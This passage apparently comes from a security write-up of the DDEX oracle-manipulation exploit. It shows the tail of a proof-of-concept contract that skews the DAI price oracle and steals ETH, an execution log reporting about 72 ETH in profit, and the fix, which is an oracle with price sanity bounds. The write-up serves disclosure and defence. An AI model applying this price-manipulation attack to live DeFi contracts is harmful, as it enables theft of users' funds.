 ```
        
        DAI.giveAllToUniswap();
        require(DAI_ORACLE.updatePrice());
    }
    
    function checkProfits() external {
        printf("profits=%.18u\n", abi.encode(address(this).balance - INITIAL_BALANCE));
    }
}

/*
### running script "ddex-exploit" at block 8572000
#### executing step: exploit
##### calling: checkRates()
eth=213.440000000000000000 dai=1.003140638067989051
##### calling: skewRates()
##### calling: checkRates()
eth=213.440000000000000000 dai=16.058419875880325580
##### calling: steal()
ethWanted=122.103009983203364425 daiNeeded=2435.392672403537525078
##### calling: cleanup()
##### calling: checkProfits()
profits=72.140629996890984407
#### finished executing step: exploit
*/
```

#### Solution

The DDEX team fixed this by deploying a [new oracle](https://etherscan.io/address/0xe6f148448b61339a59ef6ab9ab7378e9200fa745) which places sanity bounds on the price of DAI, currently set to `0.95` and `1.05`.



```
function updatePrice()
	public
	returns (bool)
{
	uint256 _price = peek();

	if (_price == 0) {
		return false;
	}

	if (_price == price) {
		return true;
	}

	if (_price > maxPrice) {
		_price = maxPrice;
	} else if (_price < minPrice) {
		_price = minPrice;
	}

	price = _price;
	emit UpdatePrice(price);

	return true;
}
```
[Source](https://github.com/HydroProtocol/protocol/blob/0466e064234117d9c8f7ae6962fe6233427d8656/contracts/oracle/DaiPriceOracle.sol#L100-L124)
